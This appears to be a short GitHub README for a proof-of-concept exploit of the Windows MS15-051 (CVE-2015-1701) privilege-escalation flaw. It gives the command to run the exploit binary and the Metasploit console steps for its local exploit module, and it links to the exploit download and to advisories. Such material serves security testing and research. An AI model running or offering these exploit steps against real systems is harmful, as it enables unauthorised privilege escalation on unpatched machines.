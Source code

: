 # MS15-051

- The POC was from [@hfiref0x](https://github.com/hfiref0x/CVE-2015-1701)

Vulnerability reference:
 * [MS15-051](https://technet.microsoft.com/en-us/library/security/ms15-051.aspx)
 * [CVE-2015-1701](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/37049-32.exe)
 

## Usage
```
c:\> MS15-051.exe whoami
```
![win7](win7.png)  
![2008](2008.png)  

## load the module within the Metasploit console
```
 msf > use exploit/windows/local/ms15_051_client_copy_image
      msf exploit(ms15_051_client_copy_image) > show targets
            ...targets...
      msf exploit(ms15_051_client_copy_image) > set TARGET <target-id>
      msf exploit(ms15_051_client_copy_image) > show options
            ...show and set options...
      msf exploit(ms15_051_client_copy_image) > exploit
```

### Links

* [Win32k Elevation of Privilege Vulnerability](https://www.fireeye.com/blog/threat-research/2015/04/probable_apt28_useo.html)


